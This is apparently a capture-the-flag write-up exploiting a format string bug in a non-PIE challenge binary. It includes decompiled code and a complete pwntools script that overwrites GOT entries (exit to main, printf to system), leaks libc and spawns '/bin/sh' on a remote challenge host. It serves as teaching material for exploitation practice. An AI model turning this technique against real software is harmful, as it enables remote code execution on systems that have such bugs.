 ## Description

	Formats are important and much more if you can specify them hehe. My software skills are elite! You will not be able to find a security issue in it.
##### Security mitigations:

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
Stripped:   No
```
##### After opening the binary in Ghidra we only have a main function.

```C
void main(void)

{
  long in_FS_OFFSET;
  char buf [520];
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("Please provide your username:");
  read(0,buf,0x200);
  printf("Thanks ");
  printf(buf);
  call_exit(0x539);
  return;
}
```

##### This code contains an obvious format string vulnerability in the first printf() call. There is no win function so our exploit plan will be:

	- Overwrite the GOT entry of exit() to point to main() so we get unlimited calls to printf()
	- Leak LIBC
	- Overwrite GOT entry of printf() with LIBC address of system()
	- Enter the string /bin/sh

##### Since the binary has no PIE we can easily do our first step with pwntools.

##### First we need to find the offset that we write to with the format string. We can do this by writing a few recognizable characters at the beginning of our buffer and then using the format string to print out the stack.

![Format String Offset](assets/fmtstr_offset.jpg)
##### Now that we know the offset we can write the first part of our exploit script.

```python
from pwn import *

context.binary = binary = ELF('./notspecified2_patched',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

payload = fmtstr_payload(6, {binary.got.exit:binary.symbols.main})

p = process()

p.sendline(payload)
```

##### Next we use the format string bug to leak LIBC. Looking back at the output from when we found our format string offset we can see a LIBC address in position 3. We can use ```%3$p``` to get this address and subtract the base LIBC address to find our offset. Once we have the LIBC address we can do our last overwrite of the printf() GOT entry with the LIBC address of system.

```python
p.sendline(b'%3$p')

libc_offset = 0x114a37
p.recvuntil(b'Thanks ')
libc_leak = int(p.recvline()[:-1].decode(), 16)
libc.address = libc_leak - libc_offset

info(f'libc base: {hex(libc.address)}')

payload2 = fmtstr_payload(6, {binary.got.printf:libc.symbols.system})
p.sendline(payload2)
```
##### Now anything the program passes to printf() will be passed to system(). This means sending the string '/bin/sh' will give us a shell on the target.

![RCE](assets/flag_screenshot.jpg)

#### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./notspecified2_patched',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

payload = fmtstr_payload(6, {binary.got.exit:binary.symbols.main})

#p = process()
p = remote('10.10.88.98', 5000)

p.sendline(payload)
p.recvrepeat(1)

p.sendline(b'%3$p')

libc_offset = 0x114a37
p.recvuntil(b'Thanks ')
libc_leak = int(p.recvline()[:-1].decode(), 16)
libc.address = libc_leak - libc_offset

info(f'libc base: {hex(libc.address)}')

payload2 = fmtstr_payload(6, {binary.got.printf:libc.symbols.system})
p.sendline(payload2)
p.sendline(b'/bin/sh')

p.recvrepeat(1)
p.interactive()
```
